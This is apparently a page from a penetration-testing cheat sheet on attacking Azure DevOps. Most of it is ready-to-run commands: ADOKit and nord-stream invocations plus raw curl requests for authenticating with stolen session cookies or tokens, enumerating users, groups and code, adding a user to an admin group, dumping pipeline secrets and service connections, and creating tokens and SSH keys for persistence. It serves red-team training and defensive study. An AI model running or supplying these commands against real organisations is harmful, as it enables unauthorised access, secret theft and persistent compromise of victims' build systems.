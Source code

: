 # Azure Services - Azure DevOps

* [xforcered/ADOKit](https://github.com/xforcered/ADOKit) - Azure DevOps Services Attack Toolkit
* [zolderio/devops](https://github.com/zolderio/devops) - Azure DevOps Access Testing Scripts
* [synacktiv/nord-stream](https://github.com/synacktiv/nord-stream) - Nord Stream is a tool that allows you to extract secrets stored inside CI/CD environments by deploying malicious pipelines. It currently supports Azure DevOps, GitHub and GitLab.

    ```ps1
    # List all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg --list-secrets

    # Dump all secrets from all projects
    $ nord-stream.py devops --token "$PAT" --org myorg
    ```

## Authentication

You can access an organization's Azure DevOps Services instance via <https://dev.azure.com/{yourorganization}>.

* Username and Password
* Authentication Cookie `UserAuthentication`: `ADOKit.exe whoami /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization`
* Personal Access Token (PAT): `ADOKit.exe whoami /credential:patToken /url:https://dev.azure.com/YourOrganization`

    ```ps1
    PAT="XXXXXXXXXXX"
    organization="YOURORGANIZATION"
    curl -u :${PAT} https://dev.azure.com/${organization}/_apis/build-release/builds
    ```

* Access Token with FOCI (MS Authenticator)

    ```ps1
    roadtx auth --device-code -c 4813382a-8fa7-425e-ab75-3b753aab3abb
    roadtx refreshtokento -c 1950a258-227b-4e31-a9cf-717495945fc2 -r 499b84ac-1321-427f-aa17-267ca6975798/.default
    python main.py --token $(jq -r '.accessToken' .roadtools_auth) repositories
    ```

## Recon

* Search files: `file:FileNameToSearch`, `file:Test* OR file:azure-pipelines*`

  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/PROJECTNAME/_apis/git/repositories/REPOSITORYID/items?recursionLevel=Full&api-version=7.0'
  ```

* Search code: `ADOKit.exe searchcode /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /search:"search term"`

  ```ps1
  curl -i -s -k -X $'POST'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: almsearch.dev.azure.com'
  -H $'Content-Length: 85'
  -H $'Expect: 100-continue'
  -H $'Connection: close'
  --data-binary $'{\"searchText\": \"SEARCHTERM\", \"skipResults\":0,\"takeResults\":1000,\"isInstantSearch\":true}' 
  $'https://almsearch.dev.azure.com/YOURORGANIZATION/_apis/search/codeAdvancedQueryResults?api-version=7.0-preview'
  ```

* Enumerate users

  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/_apis/graph/users?api-version=7.0'
  ```

* Enumerate groups: `ADOKit.exe getgroupmembers /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /group:"search term"`

  ```ps1
  curl -i -s -k -X $'GET'
  -H $'Content-Type: application/json'
  -H $'User-Agent: SOME_USER_AGENT'
  -H $'Authorization: Basic BASE64ENCODEDPAT'
  -H $'Host: dev.azure.com'
  $'https://dev.azure.com/YOURORGANIZATION/_apis/graph/groups?api-version=7.0'
  ```

* Enumerate project permissions: `ADOKit.exe getpermissions /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`

* Get the user profile of the user from access_token: <https://app.vssps.visualstudio.com/_apis/profile/profiles/me?api-version=7.1>
* Get the organizations that user belongs to: <https://app.vssps.visualstudio.com/_apis/accounts?memberId={UserID}?api-version=7.1>
* Get the repositories inside of that organization: <https://dev.azure.com/{org_name}/_apis/projects?api-version=7.1>

## Privilege Escalation

* Adding User to Group: `ADOKit.exe addcollectionbuildadmin /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /user:"username"`

    ```ps1
    curl -i -s -k -X $'PUT'
    -H $'Content-Type: application/json'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: vssps.dev.azure.com'
    -H $'Content-Length: 0'
    $'https://vssps.dev.azure.com/YourOrganization/_apis/graph/memberships/userDescriptor/groupDescriptor?api-version=7.0-preview.1'
    ```

* Retrieve build variables and secrets: `ADOKit.exe getpipelinevars /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`, `ADOKit.exe getpipelinesecrets /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`

    ```ps1
    curl -i -s -k -X $'GET'
    -H $'Content-Type: application/json'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: dev.azure.com'
    $'https://dev.azure.com/YourOrganization/ProjectName/_apis/build/Definitions/DefinitionIDNumber?api-version=7.0'
    ```

* Retrieve Service Connection Information: `ADOKit.exe getserviceconnections /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /project:"project name"`

    ```ps1
    curl -i -s -k -X $'GET'
    -H $'Content-Type: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Authorization: Basic base64EncodedPAT'
    -H $'Host: dev.azure.com'
    $'https://dev.azure.com/YourOrganization/YourProject/_apis/serviceendpoint/endpoints?api-version=7.0'
    ```

## Persistence

* Create a PAT: `ADOKit.exe createpat /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization`

    ```ps1
    curl -i -s -k -X $'POST'
    -H $'Content-Type: application/json'
    -H $'Accept: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Host: dev.azure.com'
    -H $'Content-Length: 234'
    -H $'Expect: 100-continue'
    -b $'X-VSS-UseRequestRouting=True; UserAuthentication=stolenCookie'
    --data-binary $'{\"contributionIds\":[\"ms.vss-token-web.personal-accesstoken-issue-session-tokenprovider\"],\"dataProviderContext\":{\"properties\":{\"displayName\":\"PATName\",\"validTo\":\"YYYY-MMDDT00:00:00.000Z\",\"scope\":\"app_token\",\"targetAccounts\":[]}}}}}'
    $'https://dev.azure.com/YourOrganization/_apis/Contribution/HierarchyQuery'
    ```

* Create SSH Keys: `ADOKit.exe createsshkey /credential:UserAuthentication=ABC123 /url:https://dev.azure.com/YourOrganization /sshkey:"ssh pub key"`

    ```ps1
    curl -i -s -k -X $'POST'
    -H $'Content-Type: application/json'
    -H $'Accept: application/json;api-version=5.0-preview.1'
    -H $'User-Agent: Some User Agent'
    -H $'Host: dev.azure.com'
    -H $'Content-Length: 856'
    -H $'Expect: 100-continue'
    -b $'X-VSS-UseRequestRouting=True; UserAuthentication=stolenCookie'
    --data-binary $'{\"contributionIds\":[\"ms.vss-token-web.personal-accesstoken-issue-session-tokenprovider\"],\"dataProviderContext\":{\"properties\":{\"displayName\":\"SSHKeyName\",\"publicData\":\"public SSH key content\",\"validTo\":\"YYYY-MMDDT00:00:00.000Z\",\"scope\":\"app_token\",\"isPublic\":true,\"targetAccounts\":[\"organizationID\"]}}}}}'
    $'https://dev.azure.com/YourOrganization/_apis/Contribution/HierarchyQuery'
    ```

## References

* [Hiding in the Clouds: Abusing Azure DevOps Services to Bypass Microsoft Sentinel Analytic Rules - Brett Hawkins - November 6, 2023](https://www.ibm.com/downloads/cas/5JKAPVYD)
* [DevOps access is closer than you assume - rikvduijn - January 21, 2025](https://zolder.io/blog/devops-access-is-closer-than-you-assume/)
* [Training - Attacking and Defending Azure Lab - Altered Security](https://www.alteredsecurity.com/azureadlab)
